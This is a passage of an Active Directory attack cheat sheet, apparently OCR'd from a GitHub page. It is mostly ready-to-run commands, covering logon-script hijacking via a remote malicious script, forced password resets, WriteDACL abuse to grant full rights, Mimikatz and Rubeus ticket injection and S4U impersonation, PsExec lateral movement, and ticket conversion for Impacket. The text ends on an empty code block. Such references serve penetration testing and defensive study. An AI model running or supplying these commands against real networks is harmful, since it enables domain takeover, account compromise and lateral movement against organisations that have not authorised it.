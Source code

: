 `WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:
```
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
### ExtendedRight (User-Force-Change-Password)
Change password with powerview:
```
Set-DomainUserPassword -Identity username -Verbose

# one-liner
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
### WriteDACL
Can give yourself `GenericAll` privileges:
```
Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity username -Rights All
```
### Unconstrained delegation
Use a compromised priviliged account and add TGT into current logon sessions:
```
# Powerview
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
Check if the ticket is added:
```
klist tickets
```
Connect to other computers:
```
Enter-PSSession dc01
```
### Constrained delegation
Add TGS into current logon sessions:
```
# Powerview
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'

# Rubeus
.\Rubeus.exe ptt /ticket:<Base64Ticket>
```
Execute commands on other services on behalf of the targeted user:
```
# Rubeus 
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt

# PsExec
.\PsExec.exe -accepteula \\<IP/Hostname> cmd
```
Kerberos tickets extracted from Windows needs to be converted to `.Ccache` format for use within Linux.
```
python3 rubeustoccache.py <Base64Ticket> <Output.kirbi> <Output.ccache>
```
Export the ticket to the Kerberos environmental variable:
```
export KRB5CCNAME=ticket.ccache
```
Once exported we can use `impacket` with the `-k` and `-no-pass` parameter to execute commands on the target Domain Controller.
```
```